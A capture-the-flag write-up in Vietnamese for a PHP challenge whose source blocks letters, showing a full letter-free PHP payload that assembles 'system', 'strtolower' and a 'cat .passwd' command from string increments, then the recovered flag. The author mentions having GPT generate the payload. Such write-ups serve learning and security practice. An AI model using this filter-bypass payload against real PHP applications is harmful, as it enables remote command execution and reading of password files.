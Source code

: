 ![image](https://github.com/user-attachments/assets/33534cb0-f263-4322-99aa-61cc8b378974)

xem source code thì thấy các chữ cái đã bị filter :V vậy giờ ta cần phải bypass without letters

![image](https://github.com/user-attachments/assets/90946fb4-f810-4811-a989-a650987840d6)

Vào Hacktricks thử các cách trên này :V 

![image](https://github.com/user-attachments/assets/8b9e15fa-c6e2-40be-a3bc-9d8eddc438a9)

có vẻ Using octal không được

![image](https://github.com/user-attachments/assets/f0a1cf83-ec7e-4537-adbf-627296fd2783)

truy cập theo đường link

![image](https://github.com/user-attachments/assets/6213c94f-94b7-43e0-9dbc-c6d08817ece2)

Dựa theo đó ta có payload ```SYSTEM(CAT[STRTOLOWER(.PASSWD())])```

=))))) biết hướng rồi có thể bảo gpt nó generate ra cho đỡ mệt
```
$_=[];
$_=@"$_"; 
$_=$_['!'=='@']; ;
$___=$_; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__;
$__=$_;

$_____ = '';
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;

$____='';
++$__;++$__;
$____.=$__;
$__=$_;
$____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$____.=$__;
$__=$_;

$______='.';
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
++$__;++$__;++$__;
$______.=$__;
$__=$_;
$__________ = $____." ".$______ ;
$___($_____($__________ ))

```
![image](https://github.com/user-attachments/assets/20acac49-3536-44e6-9eda-e76fd05412e4)

=> M!xIng_PHP_w1th_3v4l_L0L

